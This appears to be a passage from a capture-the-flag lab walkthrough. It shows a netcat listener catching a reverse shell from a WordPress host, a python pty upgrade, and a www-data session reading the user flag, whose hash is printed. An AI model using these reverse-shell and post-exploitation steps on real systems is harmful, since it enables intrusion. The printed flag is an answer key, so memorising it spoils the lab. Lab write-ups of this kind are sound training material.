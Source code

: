 ## GETTING-USER-FLAG
```JAVASCRIPT
www-data@ubuntu:/$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
btrisk
www-data@ubuntu:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root   root 4096 Mar 17  2017 .
drwxr-xr-x 22 root   root 4096 Feb 20  2020 ..
drwxr-xr-x  4 btrisk 1000 4096 Jul  9  2020 btrisk
www-data@ubuntu:/home$ cd btrisk
cd btrisk
www-data@ubuntu:/home/btrisk$ ls -la
ls -la
total 36
drwxr-xr-x 4 btrisk 1000 4096 Jul  9  2020 .
drwxr-xr-x 3 root   root 4096 Mar 17  2017 ..
-rw------- 1 btrisk 1000    0 Jul  9  2020 .bash_history
-rw-r--r-- 1 btrisk 1000  220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 btrisk 1000 3771 Mar 17  2017 .bashrc
drwx------ 2 btrisk 1000 4096 Mar 17  2017 .cache
-rw------- 1 btrisk 1000    0 Mar  6  2020 .mysql_history
drwxrwxr-x 2 btrisk 1000 4096 Mar 21  2017 .nano
-rw-r--r-- 1 btrisk 1000  655 Mar 17  2017 .profile
-rw-r--r-- 1 btrisk 1000    0 Mar 17  2017 .sudo_as_admin_successful
-rw------- 1 btrisk 1000  586 Mar 21  2017 .viminfo
-rw-r--r-- 1 btrisk 1000   33 Sep  4 22:50 local.txt
www-data@ubuntu:/home/btrisk$ cat local.txt
cat local.txt
7798a13a108c5e7105e8d0935e8cdfcd
www-data@ubuntu:/home/btrisk$ 
```


#### CHECKING THE WP-CONTENT.PHP FILE FROM WORDPRESS


```JAVASCRIPT
                                                                              
┌──(dx㉿kali)-[~]
└─$ sudo nc -lvp 80
listening on [any] 80 ...
192.168.188.50: inverse host lookup failed: Unknown host
connect to [192.168.49.188] from (UNKNOWN) [192.168.188.50] 47774
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:56:04 up 8 min,  0 users,  load average: 0.00, 0.03, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/$ whoami
whoami
www-data
www-data@ubuntu:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
```